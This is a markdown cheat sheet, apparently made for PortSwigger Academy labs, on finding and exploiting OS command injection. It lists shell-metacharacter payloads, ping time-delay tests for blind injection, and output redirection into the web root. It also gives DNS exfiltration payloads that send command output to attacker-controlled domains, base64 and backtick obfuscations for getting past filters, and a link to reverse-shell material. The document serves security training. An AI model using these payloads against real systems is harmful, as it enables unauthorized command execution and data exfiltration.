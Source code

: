 # Command Injection

## Summary

* [General Recon For Comamnd Injection Vulnerabilities](#recon)

  
* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

  
   * [Obfuscation Related Payloads](#obfuscation-payloads)

<br>

## Resources

* https://portswigger.net/web-security/os-command-injection
* https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection

<br>

## Recon

* First step is to perform application mapping and identify any instances where the application appears to be interacting with the underlying OS by calling external processes or accessing the filesystem.  
* The application may issue OS system commands containing any item of user supplied data (every URL, parameters, cookies, etc.).  It’s recommended to probe all these instances for OS Command Injection.

<br>

---
---

## Cheat Sheet

### Background Knowledge

* The characters ; | & and newline(URL encoded -> %0a) can be used to batch multiple commands one after another.  Each of these characters should be used when probing for command injection vulnerabilities, as the application may reject some inputs but accept others.

* The backtick \` character can also be used to encapsulate a separate command within a data item being processed by the original command.  This will cause the interpreter to execute this command first before continuing to execute the remaining command String: 

```bash
nslookup `whoami`.server-you-control.net
```

<br>

* Other useful commands to know:  https://portswigger.net/web-security/os-command-injection#useful-commands

* Ways of injecting OS commands:  https://portswigger.net/web-security/os-command-injection#ways-of-injecting-os-commands

Note:   Note that the different shell metacharacters have subtly different behaviors that might affect whether they work in certain situations, and whether they allow in-band retrieval of command output or are useful only for blind exploitation.

Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using " or ') before using suitable shell metacharacters to inject a new command.

<br>

### Example

* Many times the injected characters need to be encoded, since they can interfere with the structure of the URL/body parameters.

  * For example, below the & and {space} characters need to be URL encoded (%26 and %20) in order to be treated as part of the injection payload:

![Command Injection](https://github.com/ChrisM-X/PortSwigger-Academy-CheatSheets/blob/master/Command%20Injection/Images/CommandInjection-1.png)

<br>

### Simple Command Injection

```bash
& echo test123 &
```

<br>

### Blind Command Injection

* Many times, the results of the injected commands are not returned in the application responses.  If that is the case, we can use the ping command to trigger a time delay in the application’s response by causing the server to ping its loopback interface for a specific time period.

* To maximize chances of identifying OS Command Injection if the application is filtering certain command separators, submit each of the following payloads to each input fields and analyze the time taken for the application to respond:

```bash
| ping -i 30 127.0.0.1 |
```

```bash
| ping -n 30 127.0.0.1 |
```

```bash
& ping -i 30 127.0.0.1 &
```

```bash
& ping -n 30 127.0.0.1 &
```

```bash
; ping -i 30 127.0.0.1 ;
```

```bash
%0a ping -i 30 127.0.0.1 %0a
```

```bash
` ping 127.0.0.1 `
```

<br>

### Output Redirection

* We can also redirect a commands output to a file using the > character.  The below example redirects the output of the OS command to a file <u>within the web root</u>, then we can access the file to view the contents through our browser.

```bash
; whoami > /var/www/images/test;
```

<br>

### Out-of-band channel payloads

#### Network Interaction

```bash
; nslookup server-you-control ;
```

```bash
& nslookup server-you-control &
```

<br>

#### Reverse Shells
* https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

<br>

#### DNS Data Exfiltration
* Using backticks \`_command_\` and $(_command_)

```bash
; nslookup $(whoami).server-you-control ;
```

```bash
; nslookup `whoami`.server-you-control ;
```

<br><br><br>

### Obfuscation Payloads:

The goal here was to learn how the following payload can be obfuscated, to bypass filters for data exfiltration.

The payloads can be combined when exploiting Template Injection or other vulnerabilities that use OS Command injection.

<br>

  * Original Payload:
    
```
||nslookup+$(cat+/etc/hostname).fp8v70vp.oastify.com||
```

<br>

  * Obfuscation - Using the "echo" command to help obfuscate the word "hostname"

```
||nslookup+$(cat+/etc/ho`echo+'stname'`).fp8w54v70vp.oastify.com||
```

<br>

  * Obfuscation - Using base64 encoding to "hide" the file name "/etc/hostname"
    
```
||nslookup+$(cat+`echo+'L2V0Yy9ob3N0bmFtZQ=='+|+base64+--decode`).fp8v70vp.oastify.com||
```

  * Decoded payload
```
||nslookup $(cat `echo 'L2V0Yy9ob3N0bmFtZQ==' | base64 --decode`).fp8w70vp.oastify.com||
```

<br>

* Obfuscation - Using base encoding to "hide" the whole command "cat /etc/hostname"

```
||nslookup+$(`echo+'Y2F0IC9ldGMvaG9zdG5hbWU='+|+base64+--decode`).er9v70tk9lz9o.oastify.com||
```

<br><br><br>

### Pending to complete labs that are missing from cheat sheet:

* All labs in this category are completed and referenced in cheat sheet.

